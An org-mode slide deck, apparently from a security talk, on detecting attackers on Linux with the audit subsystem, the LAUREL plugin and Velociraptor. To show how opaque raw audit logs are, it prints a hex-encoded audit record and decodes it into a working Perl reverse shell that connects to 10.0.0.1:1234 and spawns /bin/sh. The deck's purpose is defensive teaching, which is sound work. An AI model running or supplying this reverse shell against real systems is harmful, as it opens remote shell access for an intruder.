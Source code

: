 #+TITLE: Detection and Response for Linux without EDR
#+AUTHOR: Hilko Bengen
#+DATE: 2024-10-25
# bengen@hilluzination.de / https://github.com/hillu / @hillu@infosec.exchange

# -> intro

* System Logs

# -> detection basics

- e.g. =/var/log/messages=, =/var/log/auth.log=
- Easy to collect
- The usual suspects: =sudo=, =ssh=, =cron=, etc.
- Need context to detect anything
- Not sufficient for catching attackers

* Beyond syslog

- Detect unusual, suspicious behavior, e.g.:
  - Webshells
  - Reverse shells
  - Reconnaissance
  - "fileless" implants injected into processes
  - BPF seems interesing for attackers
- Need better telemetry!
  - Program executions
  - File watches
  - Special case syscalls

* Linux Audit Subsystem

# -> better telemetry

- Good for logging:
  - Program execution
  - File operations
  - Syscalls
  - SELinux, AppArmor events

- Stable, boring technology!
  - In kernel since mid-2000s
  - Basic format is well documented
  - Semantics are well understood

* Linux Audit Subsystem

# Image

#+ATTR_HTML: :height 600px :align center
[[file:audit.svg]]



* Linux Audit Subsystem, LOL

# -> linux audit problem

# type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"

#+begin_src sh
type=SYSCALL msg=audit(1626611363.720:348501): …
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl"
  a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24
  703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545
  245414D2C67657470726F746F62796E616D6528227463702229293B69662863
  6F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746
  F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E
  285354444F55542C223E265322293B6F70656E285354444552522C223E26532
  2293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): …
#+end_src

# type=CWD msg=audit(1626611363.720:348501): cwd="/root"
# type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
# type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174

- Parsing is hard for SIEM software
- Few filtering options

* Linux Audit Subsystem, LOL

So, what is this =EXECVE.a2=?
#+begin_src perl
use Socket; $i="10.0.0.1"; $p=1234;
socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if (connect(S, sockaddr_in($p, inet_aton($i)))) {
open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S");
exec("/bin/sh -i"); };
#+end_src

* Our solution

#+ATTR_HTML: :height 150px :align center
[[file:laurel.svg]]

"Linux Audit – Usable, Robust, Easy Logging"
- /auditd/ plugin: Parse audit log, write JSON
- Enrichment, process tracking and labelling
- Filtering capabilities
- https://github.com/threathunters-io/laurel, GPLv3

# -> detect summary

* Our solution

# Image

#+ATTR_HTML: :height 600px :align center
[[file:audit-laurel.svg]]

* EDR? On Linux? Interesting.

- "Our work so far has been basic, common sense"
- "Let's see if we can do better with an off-the-shelf product"

* Made for Windows.

# -> Made for Windows

- "=CreateProcess=. What is =fork=, =exec=?"
- "=root= = 'S-1-5-18'. Everybody knows that"
- "What's a numeric user ID?"
- "What are groups?"
- "Filenames are all valid Unicode. Right?"

* Response and Hunting

# -> Response

- Get context for alerts
- simple tasks
  - inspect files
  - =ps=
  - =netstat=
- Use YARA rules to hunt for specific files
- Find process anomalies

* Velociraptor

#+ATTR_HTML: :height 150px :align center
[[file:velo.svg]]
- "digital forensic and incident response tool"
- /Velociraptor Query Language/
- Some assembly required
- Excellent support
- https://docs.velociraptor.app, AGPLv3

* Support infrastructure

- Diagnosis scripts to check for misconfiguration
  - Simplify support cases
- RPM+DEB packages
  - Reduce mistakes made in installation

* Contact info

#+ATTR_HTML: :height 120px
[[file:avatar.jpg]]

Hilko Bengen <bengen@hilluzination.de>
| https://github.com/hillu | @hillu@infosec.exchange |

Slides are available online:
#+ATTR_HTML: :height 150px
[[file:talk-url.png]]



